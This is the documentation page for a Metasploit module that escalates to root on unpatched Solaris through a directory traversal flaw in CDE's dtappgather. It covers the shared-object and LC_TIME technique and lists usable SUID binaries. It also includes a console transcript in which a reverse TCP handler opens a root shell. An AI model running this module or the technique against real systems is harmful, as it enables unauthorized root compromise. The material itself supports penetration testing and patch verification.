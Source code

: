 ## Description

  This module exploits a directory traversal vulnerability in the
  `dtappgather` executable included with Common Desktop Environment (CDE)
  on unpatched Solaris systems prior to Solaris 10u11 which allows users
  to gain root privileges.

  dtappgather allows users to create a user-owned directory at any
  location on the filesystem using the `DTUSERSESSION` environment
  variable.

  This module creates a directory in `/usr/lib/locale`, writes a shared
  object to the directory, and runs the specified SUID binary with the
  shared object loaded using the `LC_TIME` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 9u7 (09/04) (x86)
  * Solaris 10u1 (01/06) (x86)
  * Solaris 10u2 (06/06) (x86)
  * Solaris 10u4 (08/07) (x86)
  * Solaris 10u8 (10/09) (x86)
  * Solaris 10u9 (09/10) (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/extremeparr_dtappgather_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`.

  **DTAPPGATHER_PATH**

  Path to `dtappgather` executable. (default: `/usr/dt/bin/dtappgather`)

  **SUID_PATH**

  Path to suid executable. (default: `/usr/bin/at`)

  Some useful example SUID executables:

  * /usr/bin/at
  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

### Solaris 10u1 (x86)

  ```
  msf > use exploit/solaris/local/extremeparr_dtappgather_priv_esc 
  msf exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/extremeparr_dtappgather_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf exploit(solaris/local/extremeparr_dtappgather_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created directory /usr/lib/locale/ExDmW
  [*] Writing '/tmp/.Wfy7WpcZej/.pv7h2R.c' (170 bytes) ...
  [*] Writing '/tmp/.Wfy7WpcZej/.uGjK3nLc5' (175 bytes) ...
  [*] Executing payload...
  [!] Tried to delete /var/dt/appconfig/appmanager, unknown result
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R.c
  [+] Deleted /tmp/.Wfy7WpcZej/.pv7h2R
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.2
  [+] Deleted /usr/lib/locale/ExDmW/ExDmW.so.3
  [+] Deleted /tmp/.Wfy7WpcZej/.uGjK3nLc5
  [+] Deleted /usr/lib/locale/ExDmW
  [+] Deleted /tmp/.Wfy7WpcZej

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  cat /etc/release
                          Solaris 10 1/06 s10x_u1wos_19a X86
             Copyright 2005 Sun Microsystems, Inc.  All Rights Reserved.
                          Use is subject to license terms.
                             Assembled 07 December 2005
  ```

